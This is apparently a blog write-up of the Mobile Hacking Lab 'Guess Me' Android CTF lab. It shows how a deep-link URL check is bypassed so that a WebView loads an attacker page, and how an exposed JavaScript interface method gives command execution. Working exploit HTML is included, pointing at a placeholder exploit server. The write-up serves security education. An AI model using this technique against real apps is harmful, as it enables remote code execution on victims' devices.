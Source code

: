 ```yaml
---
date: '2024-10-02T17:04:51+05:30'
draft: false
title: 'Learning Android Pentesting Part 5'
cover:
    image: "images/cover.png" 
    alt: "some image that didn't load"
    caption: "Mobile Hacking Lab - Guess Me"
    responsiveImages: false
tags: ["Android", "Mobile", "CTF"]
keywords: ["mobile", "android"]
description: "Mobile Hacking Lab - Guess Me"
showFullContent: true
readingTime: true
showFullContent: true
readingTime: true
showToc: true
tocOpen: true
showReadingTime: true
hideSummary: true
---
```


I've been going through the free [Android Application Security course by Mobile Hacking Lab](https://www.mobilehackinglab.com/course/free-android-application-security-course). I would recommend this to you if you are looking to get started with Android Application pentesting. They have great labs as well, which are excellent if you are looking to get your hands dirty. This blog is a writeup for one of their free labs - Guess Me.

The goal of the challenge is to manipulate a deep link functionality in the android application, allowing you to execute remote code and gain unauthorized access.

# Analyzing the Application
Looking at the source code using jadx-gui, we see there is one activity `com.mobilehackinglab.guessme.WebviewActivity` defined with an intent-filter to handle deep-links.
![intent-filter](images/activity-intent-filter.png)

The scheme is `mhl` and the host is `mobilehackinglab`, so this activity can be invoked using activity manager using the command
```bash
am start -d 'mhl://mobilehackinglab'`
```
![activity-invoked](images/activity-invoked.jpg)

# Webviews and Javascript Interfaces
[WebView](https://developer.android.com/reference/android/webkit/WebView) objects allow you to display web content as part of your activity layout, but lack some of the features of fully-developed browsers.

This activity defines a webview in the `onCreate` method and exposes a Javascript interface `MyJavascriptInterface` to it, which can be accessed using the `AndroidBridge` object. After this, the `loadAssetIndex` and `handleDeepLink` methods are called. 
![activity-oncreate](images/webview-oncreate.png)

A [Javascript Interface](https://developer.android.com/reference/android/webkit/JavascriptInterface) allows you to expose Java functions to a webview, which can then be invoked via Javascript. This is sort of similar to [preload scripts in Electron](https://www.electronjs.org/docs/latest/tutorial/tutorial-preload), where we expose Nodejs functions to the renderer process.

The `MyJavascriptInterface` interface exposes 2 methods:
- loadWebsite: loads the url passed into the webview.
- getTime: executes the passed string as a command and returns the string.

`getTime` can be used to abuse the Webview and get command execution on the device.

# Routing the Exploit

We need to load an URL under our control into the webview. Once done, we call `AndroidBridge.getTime` via javascript to get command execution. Looking at the function calls using `frida-trace` when invoking `WebviewActivity` via our deeplink, we see the following call order:
```
init
onCreate -> loadAssetIndex
         -> handleDeepLink -> isValidDeepLink
```
![call-stack](images/call-stack.png)

`isValidDeepLink` checks the following:
- The deeplink URI starts with either `mhl` or `https`.
- The deeplink host is `mobilehackinglab`.

If these 2 checks pass, then:
- GET parameter `url` should not be null
- GET parameter `url` should end with `mobilehackinglab.com`

![isvaliddeeplink](images/isvaliddeeplink.png)

If all is good, the function returns true, after which `handleDeepLink` will call `loadDeepLink` which loads the URL in the GET parameter `url` into the webview.
![handleDeeplink](images/handledeeplink.png)

This can be achieved by using the below deeplink:
```
mhl://mobilehackinglab/?url=https://google.com%23mobilehackinglab.com
```
![exploitlink](images/exploit-link.png)

# Exploitation

Create the following HTML pages, and host them over an HTTP server.
```html
<!-- index.html -->
<a href="mhl://mobilehackinglab/?url=http://YOUR-EXPLOIT-SERVER/exploit.html%23mobilehackinglab.com"><h1>Click Me!</h1></a>
```

```html
<!-- exploit.html -->
<script>
    alert(AndroidBridge.getTime("id"));
</script>
```
Send the link to your server to the victim. When the victim clicks the link, it triggers `com.mobilehackinglab.guessme.WebviewActivity` and loads our malicious exploit.html into its' webview, leading to RCE.
![rce](images/rce.jpg)